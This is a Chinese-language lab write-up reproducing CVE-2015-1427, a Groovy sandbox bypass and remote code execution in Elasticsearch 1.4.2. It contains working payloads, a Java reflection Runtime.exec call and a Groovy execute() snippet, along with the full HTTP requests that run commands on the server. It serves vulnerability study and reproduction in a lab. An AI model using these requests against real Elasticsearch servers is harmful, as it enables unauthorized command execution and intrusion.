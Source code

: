# CVE-2015-1427 ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞

### 一、漏洞简介

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个Goovy代码执行漏洞。

### 二、漏洞影响

elasticsearch版本：v1.4.2

### 三、复现过程

Groovy语言“沙盒”

ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1. 既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言。
2. 所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：


```java
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

Goovy直接执行命令法：


```bash
def command='id';def res=command.execute().text;res
```

**漏洞复现**

编译及运行测试环境


```bash
docker-compose build
docker-compose up -d
```

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：


```bash
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

然后发送包含payload的数据包，执行任意命令：


```bash
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

![](images/15890030840642.png)


参考链接

https://vulhub.org/#/environments/elasticsearch/CVE-2015-1427/